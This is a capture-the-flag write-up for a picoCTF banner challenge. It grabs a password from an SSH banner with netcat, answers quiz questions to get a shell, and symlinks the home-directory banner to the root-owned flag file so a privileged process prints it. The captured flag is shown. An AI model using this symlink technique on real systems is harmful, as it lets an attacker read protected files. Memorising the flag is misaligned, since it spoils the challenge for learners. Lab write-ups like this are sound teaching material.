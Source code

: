 # Overview 
Category: [General Skills]()

AUTHOR: LOIC SHEMA / SYREAL

# Description
Can you abuse the banner?
Additional details will be available after launching your challenge instance.

# Solution
- **we're going to start by exploring the leaked information from the initial server by netcatting that host and port**

    ┌──(kali㉿kali)-[/]

    └─$ nc tethys.picoctf.net 64478

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

- **The Exploit**
  
  So now we have a password, we can see what it comes. We will step through a bit of questions and answers available on Google.

    ┌──(kali㉿kali)-[/]
    
    └─$ nc tethys.picoctf.net 64478   


\*************************************

\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*

\*************************************

    what is the password? 
    My_Passw@rd_@1234
    What is the top cyber security conference in the world?
    DEFCON
    the first hacker ever was known for phreaking(making free phone calls), who was it?
    John Draper
    player@challenge:~$ ls
    banner text

>player@challenge:~$ cat banner

\*************************************

\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*

\*************************************

=> It is the code when I opened the connection

    player@challenge:~$ cat text
    keep digging

Now move to the root directory and get the flag?

    player@challenge:~$ cd /root
    player@challenge:/root$ ls
    flag.txt  script.py
    player@challenge:/root$ cat flag.txt
    cat: flag.txt: Permission denied

We have no permission to read it.We can try to symlink the flag to take the place of the banner, and see if it’s being read by something with a higher privilege level.

    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    ln: failed to create symbolic link '/home/player/banner': File exists
    player@challenge:/root$ rm ~/banner
    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    player@challenge:/root$ cd ~
    player@challenge:$ cat ~/banner
    cat: /home/player/banner: Permission denied

We still can’t cat this banner out, but it was served when we connected before, so what if we simply disconnect and reconnect?

    ┌──(kali㉿kali)-[/]
    └─$ nc tethys.picoctf.net 54610

**picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}**

